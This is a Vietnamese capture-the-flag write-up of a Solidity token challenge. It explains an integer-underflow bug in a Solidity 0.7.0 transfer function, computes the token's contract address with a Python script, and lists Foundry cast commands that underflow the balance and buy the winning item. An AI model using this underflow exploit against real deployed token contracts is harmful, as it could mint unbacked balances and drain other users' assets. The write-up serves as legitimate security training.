

# Token to Wonderland


```
Lưu ý: Sử dụng công cụ Foundry trên command line để tương tác blockchain.
```

Trong challenge này, ba contract được cung cấp: `Setup`, `Shop` và `SilverCoin`. Tuy nhiên, chỉ có hai address được cung cấp thuộc về `Setup` và `Shop`. Hơn nữa, khi xem source code của các contract, thấy rằng address của `SilverCoin` không được hard-coded ở đâu đó. Vì vậy, challenge đầu tiên là tìm address của SilverCoin nếu cần.

Tiếp tục với các chức năng của contract. Không tập trung vào từng chức năng được implementation, nhưng sẽ đề cập chung đến chúng bằng cách tập trung vào những chức năng quan trọng.

Contact `Setup` deploy contract `SilverCoin` mới trong constructor của nó và sau đó chuyển 100 silver coin. Ngoài ra, yêu cầu để solve challenge phải là chủ sở hữu của key, là một vật phẩm trong shop.

`Shop` chỉ đơn giản là một contract lưu trữ ba mục với name, price và address của chủ sở hữu. Các mục là các biến có kiểu struct. Giá của các mục được tính theo SilverCoin. Ban đầu, chủ sở hữu của các mục đó là chính Shop và để sở hữu key, cần phải trả 25 triệu đồng bạc. Vì vậy, challenge thứ hai là tăng số dư silver coin bằng cách nào đó và mua key thông qua hàm `buyItem`. Phần quan trọng trong hàm `buyItem` là không chuyển tiền coin, thay vào đó, contract `Shop` chuyển tiền. Nó tương tự như bất kỳ deploy token ERC-20 nào. Vì lý do này, phải cấp thêm quyền cho contract `Shop` để chi tiêu silver coin.

`SilverCoin` là một contract token tương thích với các tiêu chuẩn ERC-20. Nó bao gồm các biến trạng thái như balance, allowance và các chức năng như transfer, transferFrom, approve, v.v. Contract `shop` sử dụng `phương thức transferFrom của SilverCoin` để mua một mặt hàng. Tương tự như `transferFrom`, cũng có một chức năng `transfer`.

```
function _transfer(address from, address to, uint256 amount) internal {
        require(from != address(0), "ERC20: transfer from the zero address");
        require(to != address(0), "ERC20: transfer to the zero address");

        uint256 fromBalance = _balances[from];
        require(fromBalance - amount >= 0, "ERC20: transfer amount exceeds balance");
        _balances[from] = fromBalance - amount;
        _balances[to] += amount;
        emit Transfer(from, to, amount);
    }
```

Ở trên triển khai `hàm _transfer`. Về cơ bản, nó giảm số lượng `from address` và tăng số lượng `to address`. Mặc dù có vẻ như là một implementation đúng, nhưng nó có thể dẫn đến tràn số nguyên trong các phiên bản Solidity dưới phiên bản 0.8.0. May mắn thay, nó được triển khai trong phiên bản 0.7.0, nói cách khác, kết quả của các phép toán số học không được kiểm tra.

```
Overflow/underflow integer là gì? Lỗ hổng tràn số nguyên và thiếu số nguyên là một vấn đề phổ biến trong lập trình, đặc biệt là trong các ngôn ngữ kiểu tĩnh như C hoặc Solidity. Solidity hỗ trợ các kiểu dữ liệu khác nhau cho số nguyên có dấu và không dấu với các kích thước khác nhau. Nó thay đổi từ số nguyên 8 bit đến số nguyên 256 bit. Các số nguyên có thể được giữ bởi các biến này bị giới hạn trong một phạm vi nhất định. Ví dụ, uint8 biểu diễn một số nguyên không dấu 8 bit, nghĩa là nó có thể lưu trữ các giá trị từ 0 đến 255. Tràn số nguyên xảy ra khi một giá trị cao hơn giá trị tối đa mà một biến có thể giữ được được gán. Tương tự như vậy, thiếu số nguyên xảy ra khi một giá trị thấp hơn giá trị tối thiểu được gán. Ví dụ, nếu số 256 được gán cho một biến kiểu uint8, nó sẽ được lưu trữ dưới dạng 0. Tương tự như vậy, khi số -1 được gán cho biến đó, nó sẽ được lưu trữ dưới dạng 255. Nói cách khác, giá trị được gán không được nằm ngoài phạm vi có thể biểu diễn. Để ngăn ngừa những trường hợp đó, giá trị đầu ra của phép toán số học phải được kiểm tra. Việc này được thực hiện bởi trình biên dịch solidity trong các phiên bản ≥ v. 0.8.0.
```

Trong trường hợp này, vì phiên bản solidity là 0.7.0, nên dễ bị tràn số nguyên. Giá trị số dư là số nguyên không dấu 256 bit. Nếu cố gắng chuyển 101 silver coins, sẽ có một lượng coins quá mức do tràn số nguyên. (100–101) = -1 = (2²⁵⁶ -1)

## Solution

Đầu tiên cần tìm địa chỉ của SilverCoin. Address contract được tạo ra một cách xác định từ sự kết hợp của address deploy và giá trị nonce của nó. Giá trị nonce của mỗi contract bắt đầu từ 1 và tăng thêm 1 sau mỗi lần deploy contract. Để tìm địa chỉ, sử dụng thư viện eth-utils trong python — xem code bên dưới. Đừng quên thay đổi address setup.

```
import rlp
from eth_utils import keccak, to_checksum_address, to_bytes


def mk_contract_address(sender: str, nonce: int) -> str:
    sender_bytes = to_bytes(hexstr=sender)
    raw = rlp.encode([sender_bytes, nonce])
    h = keccak(raw)
    address_bytes = h[12:]
    return to_checksum_address(address_bytes)

setup_addr = "0xb0031ad08fB469764019b1B0d8b0D1e1d824fcd3"
_addr = to_checksum_address(mk_contract_address(to_checksum_address(setup_addr), 1))
print(_addr)

# _addr = 0xD5929908974F6d484BD2D9a172e44A0b1e412334
```

Với script đơn giản này, tìm thấy address của `SilverCoin`.

Điều phải làm bây giờ là tăng số dư thông qua việc khai thác lỗ hổng underflow trong hàm truyền. Dưới đây, có thể thấy phần dễ bị tấn công của hàm truyền.

```
// Integer underflow

uint256 fromBalance = _balances[from];
require(fromBalance - amount >= 0, "ERC20: transfer amount exceeds balance");
_balances[from] = fromBalance - amount;
```

Khi gọi hàm này với số lượng bằng 101 (hoặc cao hơn), sẽ kích hoạt lỗ hổng theo cách sau:

1. Số Balance là 100, do đó `fromBalance` bằng 100.

2. fromBalance-amount = 100–101 = -1 = (2²⁵⁶ — 1) (Underflows). Theo cách đó, câu lệnh require trở thành True.

3. Balance được đặt là 2²⁵⁶ — 1.

Để exploit và thu được một lượng lớn silver coin, chuyển 101 silver coin đến address setup bằng command sau.

```
cast send $silver_coin "transfer(address,uint256)(bool)" $setup 101 --rpc-url $rpc --private-key $private_key
```

Bây giờ, có quá nhiều token. Có thể xem hình ảnh bên dưới.



Vì có đủ silver coin, có thể chỉ cần mua vật phẩm và solve puzzle. Với mục đích này, trước tiên phải cấp quyền cho address contract `Shop` để có thể chi tiêu token. Để làm điều đó, gọi hàm `approve` của silver coin.

```
cast send $silver_coin "approve(address,uint256)(bool)" $shop 250000000 --rpc-url $rpc --private-key $private_key
```

Lệnh trên cấp quyền cho address shop để chi 250 triệu silver coin. Chỉ cần gọi hàm approve của contract Silver Coin.

Tiếp theo, gọi buyItem với giá trị index 2 (chỉ số của Golden Key).

```
cast send $shop "buyItem(uint256)" 2 --rpc-url $rpc --private-key $private_key
```

Mua thành công Golden Key và solve challenge.